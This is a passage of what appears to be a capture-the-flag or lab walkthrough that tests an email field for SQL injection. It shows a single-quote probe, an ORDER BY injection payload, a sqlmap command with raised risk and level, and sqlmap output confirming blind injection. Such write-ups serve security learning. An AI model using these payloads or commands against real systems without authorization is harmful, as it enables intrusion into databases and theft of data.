 Enter a random E-mail like ``random@random.com`` and its says that an email was sent to this address.


Now, try some injections to see if it is vulnerable. We can check if there is a SQL injection.
Enter a simple quote in the ``E-Mail Address`` field : 

![SQL Test](../assets/img/Usage/sql1.png)

We have a ``500 | SERVER ERROR``.

It is interesting. Continue with basic ``ORDER BY`` query like : ``' ORDER BY 36-- -`` and you will see that there is a SQL injection.

### SQL Injection

We could try to exploit this **SQLi** manually but here we will use **SQLMap** to be more efficient.

Save the **POST** request with **BurpSuite** and use this following command : 
```bash
sqlmap -r request.req --level=2 --risk=2
```

:warning: *Here, I increase the risk because the default payloads are not efficient.*

Wait a little : 
```bash
---------------------------------REDACTED----------------------------------
[22:21:32] [INFO] testing for SQL injection on POST parameter 'email'
[22:21:32] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:22:21] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[22:22:26] [INFO] POST parameter 'email' appears to be 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)' injectable
---------------------------------REDACTED----------------------------------
```
